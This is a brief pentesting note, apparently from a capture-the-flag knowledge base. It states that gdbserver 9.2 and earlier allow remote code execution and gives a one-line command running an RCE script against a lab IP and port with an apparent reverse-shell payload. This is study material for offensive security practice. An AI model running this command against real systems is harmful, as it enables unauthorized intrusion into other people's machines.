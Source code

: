 If the gdbserver is 9.2 or prior it is vulnerable to a RCE exploitation:

```bash
sudo python3 gdbserver_rce.py 10.10.11.125:1337 rev.bin
```
Examples:
[[Backdoor#^5d3296]]